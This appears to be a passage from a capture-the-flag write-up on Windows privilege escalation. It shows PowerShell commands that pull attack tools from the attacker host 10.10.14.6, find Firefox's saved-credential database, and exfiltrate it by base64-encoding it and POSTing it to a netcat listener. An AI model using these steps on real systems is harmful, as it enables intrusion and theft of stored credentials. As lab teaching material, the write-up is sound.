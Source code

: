 ## Privesc
This seems to be a really restricted user:
```powershell
*Evil-WinRM* PS C:\> systeminfo
systeminfo.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```
We can run the powershell equivalent though:
```powershell
[System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      17763  0
```
It looks like a fairly recent version of windows 10, so probably not vulnerable to any bigger CVEs

I'll transfer some tools over via powershell https://github.com/pentestmonkey/windows-privesc-check:
```ps1
Invoke-WebRequest "http://10.10.14.6/windows-privesc-check2.exe" -OutFile "C:\Users\Chase\Documents\priv.exe"
.\priv.exe --audit -a -o report
```

It shows us that there seem to be firefox saved credentials:
> Firefox credentials file exists at C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db 

Let's download that and decrypt it.
`windows-privesc-check` recommends to use SharpWeb:
https://github.com/djhohnstein/SharpWeb/releases/tag/v1.2
```ps1
 Invoke-WebRequest "http://10.10.14.6:9090/SharpWeb.exe" -OutFile "C:\Users\Chase\Documents\sharp.exe" 
```
There is also https://github.com/lclevy/firepwd which allows decryption on our local attacking Kali machine.

For that we need to transfer the key database first.
I'll use this opportunity to talk about different ways to transfer files from a windows machine.

### Base 64 file transfer
We'll read the file and encode it to a base64 string and then using HTTP POST to transfer it to us.

On the victim machine:
```ps1
 $b64 = [System.convert]::ToBase64String((Get-Content -Path "C:\Users\Chase\Documents\key4.db" -Encoding Byte))
 Invoke-WebRequest -Uri http://10.10.14.6 -Method POST -Body $b64
```

On the attacking machine:
```sh
sudo nc -lvnp 80 > firefox.b64
```
We can then convert it back to a file like this:
```sh
 cat firefox.b64 | base64 --decode > firefox.key4.db
```
